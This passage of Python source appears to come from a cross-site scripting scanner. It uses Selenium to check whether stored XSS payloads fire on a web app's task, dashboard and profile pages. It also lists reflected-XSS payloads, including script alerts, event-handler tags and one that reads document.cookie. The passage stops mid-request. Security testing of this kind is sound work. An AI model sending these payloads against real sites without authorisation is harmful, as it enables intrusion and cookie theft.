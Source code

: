 ```python
        
        return results
    
    def trigger_stored_xss(self, endpoint_url, payload):
        """Trigger stored XSS using Selenium"""
        try:
            # Navigate to page that displays stored content
            if 'comments' in endpoint_url:
                page_url = f"{self.base_url}/tasks/1"  # Task detail page
            elif 'tasks' in endpoint_url:
                page_url = f"{self.base_url}/dashboard"  # Dashboard page
            else:
                page_url = f"{self.base_url}/profile"  # Profile page
            
            self.driver.get(page_url)
            
            # Wait for page load and check for alert
            try:
                WebDriverWait(self.driver, 5).until(EC.alert_is_present())
                alert = self.driver.switch_to.alert
                alert_text = alert.text
                alert.accept()
                
                if 'XSS' in alert_text or 'Stored' in alert_text:
                    return True
                    
            except:
                # Check for DOM manipulation
                page_source = self.driver.page_source
                if any(indicator in page_source for indicator in ['<h1>Stored XSS', 'XSS Executed', payload]):
                    return True
            
            return False
            
        except Exception as e:
            print(f"    Error triggering XSS: {e}")
            return False
    
    def test_reflected_xss(self, endpoint_info):
        """Test for reflected XSS vulnerabilities"""
        print(f"\n[+] Testing reflected XSS on {endpoint_info['endpoint']['url']}")
        
        reflected_payloads = [
            "<script>alert('Reflected XSS')</script>",
            "<img src=x onerror=alert(document.domain)>",
            "<svg onload=alert(document.cookie)>",
            "javascript:alert('Reflected')",
            "<iframe src=javascript:alert('Reflected')>",
            "<body onload=alert('Reflected')>",
            "<input onfocus=alert('Reflected') autofocus>",
            "<details open ontoggle=alert('Reflected')>",
            "'-alert('Reflected')-'",
            "\";alert('Reflected');//"
        ]
        
        results = []
        
        for payload in reflected_payloads:
            try:
                if endpoint_info['endpoint']['method'] == 'GET':
                    response = self.session.get(
                        f"{self.base_url}{endpoint_info['endpoint']['url']}",
```